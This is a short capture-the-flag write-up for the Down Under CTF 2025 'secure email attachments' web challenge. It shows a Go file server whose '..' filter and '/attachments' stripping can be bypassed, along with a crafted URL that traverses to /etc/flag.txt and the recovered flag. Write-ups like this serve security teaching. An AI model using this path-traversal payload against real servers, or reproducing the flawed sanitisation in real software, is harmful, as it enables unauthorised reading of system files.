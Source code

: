 ﻿# secure email attachments — Down under CTF 2025 (OSINT)

[← Back to DUC CTF 2025](../ctf-duc-2025.md)

Category: Web

Points:

Author: MC Fat Monke

## Description

During the email apocalypse, IT admins tried to prevent the DOS of all systems by disallowing attachments to emails. To get around this, users would create their own file storage web servers for hosting their attachments, which also got DOSed because everyone was mass spamming the links in emails...

Can you read /etc/flag.txt from the filesystem?

Handout: [File](https://storage.googleapis.com/downunderctf-2025-noctf-files/noctf-files/u1n0odOzrZIRMtOoedQLj?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=GOOG1ELBSKCSEHWDHBGZCFZBP3RXLJBHVAZJTTYKCMYMRJRM6O5N35G46S26H%2F20250723%2Fauto%2Fs3%2Faws4_request&X-Amz-Date=20250723T194000Z&X-Amz-Expires=1200&X-Amz-SignedHeaders=host&X-Amz-Signature=4e42e86f205638a51b6fa6efd9cca96821315f6c7e7fbb985532ddb3ca7b5370)

## Summary and solution

So we get a small go server file, which tries to protect the flag.

```
package main

import (
    "net/http"
    "path/filepath"
    "strings"

    "github.com/gin-gonic/gin"
)

func main() {
    r := gin.Default()

    r.GET("/*path", func(c *gin.Context) {
        p := c.Param("path")
        if strings.Contains(p, "..") {
            c.AbortWithStatus(400)
            c.String(400, "URL path cannot contain \"..\"")
            return
        }
        // Some people were confused and were putting /attachments in the URLs. This fixes that
        cleanPath := filepath.Join("./attachments", filepath.Clean(strings.ReplaceAll(p, "/attachments", "")))
        http.ServeFile(c.Writer, c.Request, cleanPath)
    })

    r.Run("0.0.0.0:1337")
}
```

You have access to everything in the attachment folder, but it will try to remove .. from the routing. 

http://chal.2025.ductf.net:30014/attachments./attachments.//attachments./attachments.//attachments./attachments./etc/flag.txt

By crafting the url as such, we ends up doing a routing like: `../../../etc/flag.txt`

## ✅ Final Flag

    DUCTF{w00000000T!!1one!?!ONE_i_ThORt_tH3_p4RtH_w4R_cL34N!!1??}